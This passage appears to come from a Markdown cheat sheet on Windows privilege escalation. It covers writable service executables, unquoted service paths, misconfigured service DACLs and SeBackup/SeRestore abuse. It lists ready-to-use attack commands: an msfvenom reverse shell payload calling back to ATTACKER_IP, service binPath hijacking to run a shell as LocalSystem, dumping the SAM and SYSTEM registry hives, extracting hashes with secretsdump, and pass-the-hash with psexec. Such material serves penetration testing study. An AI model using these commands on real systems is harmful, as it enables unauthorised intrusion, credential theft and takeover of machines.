 #### Insecure Permissions on Service Executable
If the service executable is writable:
```cmd
icacls C:\PATH\TO\EXECUTABLE.exe
```
Replace it with a malicious executable:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe-service -o rev-svc.exe
```
Transfer and replace the executable, then restart the service:
```cmd
sc stop SERVICE_NAME
sc start SERVICE_NAME
```

#### Unquoted Service Paths
Improperly quoted service paths allow attackers to insert malicious executables in path segments. Check:
```cmd
sc qc SERVICE_NAME
```
Search for writable folders in the path:
```cmd
icacls C:\MyPrograms
```
Place a malicious executable in the appropriate location and restart the service.

#### Insecure Service Permissions
If a service DACL is misconfigured:
```cmd
accesschk64.exe -qlc SERVICE_NAME
```
If `SERVICE_ALL_ACCESS` is granted, reconfigure:
```cmd
sc config SERVICE_NAME binPath= "C:\PATH\TO\SHELL.exe" obj= LocalSystem
```
Restart the service to gain elevated access.

### Abusing Dangerous Privileges

#### SeBackup / SeRestore
Allows bypassing DACLs to read/write files. Use to copy `SAM` and `SYSTEM` registry hives:
```cmd
reg save hklm\system C:\Users\USER\system.hive
reg save hklm\sam C:\Users\USER\sam.hive
```
Use SMB to transfer files and extract hashes:
```bash
secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Use hashes for Pass-the-Hash attacks:
```bash
psexec.py -hashes LMHASH:NTHASH administrator@TARGET
```
